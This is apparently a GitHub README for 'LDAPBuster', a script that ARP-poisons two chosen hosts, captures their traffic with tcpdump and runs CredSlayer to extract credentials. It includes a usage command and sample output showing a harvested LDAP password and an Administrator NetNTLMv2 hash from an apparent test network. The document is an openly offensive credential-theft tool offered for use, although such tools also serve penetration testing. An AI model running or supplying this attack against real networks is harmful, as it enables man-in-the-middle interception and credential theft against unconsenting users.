 # LDAPBuster
Script to automate the ARP poisoning and credential harvesting of network devices that utilize LDAP for authentication.

This script started as a way to automated the communication between firewalls and remote access appliances that use AD and LDAP for authentication but expended to allow the targetting of any two addresses and parse credentials passed between them. 

The script with take two inputs, and start an ARP poison attack on them to allow for a MITM. While this is happening, a capture is started to save all data that is captured during the MITM. This runs until you hit neter, in which the file is then saved, the poison stopped, and CredSlayer is then run on the output file automatically to extract all credentials and hashes available. 

Usage: 
```
sudo python test.py --victim VICTIM --target TARGET --output OUTPUT
```

Output: 

```
LDAP Buster
By: Hann1bl3L3ct3r
Script to target two devices for ARP poisoning to capture authentication information which is saved to a file and parsed with CredSlayer.
Note: Must be run as ROOT
[*] IP forwarding enabled.
[*] Starting tcpdump to capture traffic into test.pcap...
[*] tcpdump started and writing to test.pcap
[*] Starting packet forwarding between victim and target...
[*] Press Enter to stop the capture and begin parse...
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
[*] Starting ARP poisoning...

3239 packets captured
3245 packets received by filter
0 packets dropped by kernel
[*] tcpdump stopped and saved to test.pcap.
[*] Starting Parse...
[*] ARP tables restored.
[*] Running CredSlayer on test.pcap...
[INFO] Processing packets in 'test.pcap'
[LDAP 192.168.1.106:33039 <-> 192.168.1.5:389] [FOUND] credentials found: cn=Test User,cn=Users,dc=TEST,dc=local -- Password#1
[INFO] Interesting things have been found but the CredSLayer wasn't able validate them: 
[LDAP 192.168.1.106:33038 <-> 192.168.1.5:389] [INFO]  name:  -- Administrator::TEST:019cef6365b05c2c:BA19872D0F64B8435D17CF3B95FE1709:010100000000000000030E4D34ABD401E3F54FBC526BD95A000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C0000000000 -- {'version': 'NETNTLMv2'}
[INFO] Processed in 16.095 seconds.
```
